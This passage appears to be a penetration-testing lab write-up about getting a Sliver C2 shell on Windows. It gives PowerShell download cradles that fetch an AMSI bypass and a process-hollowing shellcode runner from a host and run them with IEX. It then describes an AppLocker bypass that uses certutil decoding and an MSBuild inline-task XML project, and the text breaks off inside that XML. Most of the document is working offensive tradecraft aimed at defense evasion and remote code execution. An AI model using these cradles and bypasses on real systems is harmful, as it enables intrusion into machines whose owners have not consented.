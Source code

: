 if you are looking to use sliver, you probably have your own amsi bypass, in case you dont, you can follow [this article](https://fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypass-to-work-again/) or [this repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) in order to write your own. however you should stick to the amsi scan buffer patch bypass as it bypasses amsi for the whole process (powershell and dotnet framework) and not just powershell like the matt graeber bypass. 

# Getting the Shell 

- first we will host our shell code runner "SliverPhollow.txt"  and our amsi bypass "am.txt" which will call our shell code runner after amsi is bypassed. (add this as the last line on your am.txt file : (New-Object System.Net.WebClient).DownloadString('http://192.168.1.11:80/SliverPhollow.txt') | IEX)
- we then will execute our download cradle and we get a shell !! 
```
(New-Object System.Net.WebClient).DownloadString('http://192.168.1.11:80/am.txt') | IEX
```
![sliver1](/post/sliver1.PNG)
- we are running from the hollowed process we specified :

![sliver2](/post/sliver2.PNG)
- with the slow download speed on the labs , this will take 49s exatly to get the shellback. 
- to disable the aes decryption, submit the $null value to the keys. 
- to disable the decompression, submit any other value than gzip or deflate9.

# Applocker Bypass

- i chose the [msbuild applocker bypass](https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/) with one small addition , it importing the of the `System.Management.Automation.dll` which took some time to figure out. 
- the script will reference the dll , create a new runspace (which will not be subject to powershell constrained language mode) then fetch the amsi bypass and the shellcode runner and execute them.
- to alter the workflow of the code you can add a reference to any dll you want using this statement as an example :
```C#
 <Reference Include="System.Management.Automation" />
```
- we will embeded our file as base64 to write it to disk , decode it using certutil then execute it using the msbuild.exe binary. 
- our xml file will look like this :(special thanks to [evi1cg](https://evi1cg.me/archives/ypassing_Applocker_with_MSBuild-exe.html) and [chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)
```C#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes c# code. -->
  <!-- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe pshell.xml -->
   <!-- Author: Casey Smith, Twitter: @subTee -->
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
   <FragmentExample />
   <ClassExample />
  </Target>
  <UsingTask
    TaskName="FragmentExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <ParameterGroup/>
    <Task>
      <Using Namespace="System" />
      <Using Namespace="System.IO" />
      <Code Type="Fragment" Language="cs">
        <![CDATA[
```